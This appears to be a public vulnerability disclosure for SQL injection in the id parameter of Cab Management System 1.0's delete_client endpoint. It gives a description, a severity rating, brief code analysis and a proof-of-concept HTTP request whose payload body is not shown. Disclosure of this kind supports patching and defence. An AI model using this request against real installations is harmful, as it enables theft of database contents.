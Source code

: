 ## Affected version: 
Cab Management System - 1.0

## Vendor:
https://www.sourcecodester.com/users/tips23

## Software:
https://www.sourcecodester.com/php/15180/cab-management-system-phpoop-free-source-code.html#google_vignette

## Vulnerability File:
/cms/classes/Users.php?f=delete_client

## Description:
Cab Management System 1.0 is vulnerable to unrestricted SQL injection attacks via /cms/classes/Users.php?f=delete_client, the controllable parameter is: id. This function brings the id parameter into the SQL statement for execution without any restrictions. A malicious attacker could exploit this vulnerability to obtain sensitive information in the server database.

Status: CRITICAL

POC
```
POST /cms/classes/Users.php?f=delete_client HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:126.0) Gecko/20100101 Firefox/126.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 60
Origin: http://localhost
Connection: close
Referer: http://localhost/cms/admin/?page=clients
Cookie: PHPSESSID=32cto35al185bgmn489u9arakg; __insuarance__logged=1; __insuarance__key=PO3ZYU67VV15JHRDZ5SJ
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
X-Forwarded-For: 192.168.1.23
Priority: u=1
```
![image](https://github.com/Hefei-Coffee/cve/assets/168982375/b51444cb-8a88-4a5a-a235-707f18ae6cec)



## code analysis:

The $id parameter in the User.php file is controllable and can be directly brought into the database to execute SQL statements.

![image](https://github.com/Hefei-Coffee/cve/assets/168982375/a6ac3da5-ddbd-4fe4-b1b5-9fe363fcef0c)


